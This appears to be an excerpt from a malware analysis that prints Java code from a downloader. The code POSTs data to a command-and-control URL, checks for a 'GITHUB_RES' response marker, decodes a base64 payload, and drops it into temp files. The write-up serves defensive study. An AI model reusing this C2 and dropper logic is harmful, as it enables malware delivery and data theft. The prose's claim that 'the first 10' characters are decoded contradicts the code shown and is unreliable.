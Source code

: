 ```java
try {
  if (sec_path.length() > 1) {
      File secFile = new File(sec_path);
      if (secFile.exists())
          System.exit(0);
  }

  HttpRequest request = HttpRequest.newBuilder()
      .header("Content-Type", "application/json; charset=utf-8")
      .version(HttpClient.Version.HTTP_1_1)
      .uri(URI.create(POST_URL))
      .POST(HttpRequest.BodyPublishers.ofString(data.toString()))
      .build();
  HttpClient client = HttpClient.newHttpClient();
  HttpResponse<String> response = client.send(request, HttpResponse.BodyHandlers.ofString());
```

- If the POST request is not well received (status 200), the code will sleep for 5 seconds. From now on all communications must come back labeled with “GITHUB_RES” indicating the C2 is the intended receiver of the message. Responses that come back without that pattern won’t be honored.

```java
if (response.statusCode() != 200)
{
  Thread.sleep(5000);
  continue;
}
String resStr = response.body();
if (!resStr.startsWith("GITHUB_RES"))
{
  System.out.println("Data Error");
} else {
```

- After the initial “dialogue” with the C2 and depending on the operating system used by the victim, malware will check if received response is longer than 11 chars. If so, it will take the first 10 and base64 decode them. Then those characters will be cast to UTF-8.

```java
if (resStr.length() > 11)
{
    String enc_data = resStr.substring(10);
    byte [] dec_data = Base64.getDecoder().decode(enc_data);
    String org_file = new String(dec_data, StandardCharsets.UTF_8);
    String org_path;
}

```

- Then the malware will drop two files on the temporary directory: p.dat and prefTmp.java. The later will receive the 10 characters decoded on the previous step.

```java
if (Integer.parseInt(getOperatingSystem()) == 0)
{
    org_path = System.getProperty("java.io.tmpdir") + "\\prefTmp.java";
    sec_path = System.getProperty("java.io.tmpdir") + "\\p.dat";
} else {
    org_path = System.getProperty("java.io.tmpdir") + "/prefTmp.java";
    sec_path = System.getProperty("java.io.tmpdir") + "/p.dat";
}
try (FileWriter file = new FileWriter(org_path, true);BufferedWriter buffer = new BufferedWriter(file)) {
    buffer.write(org_file);
}
```
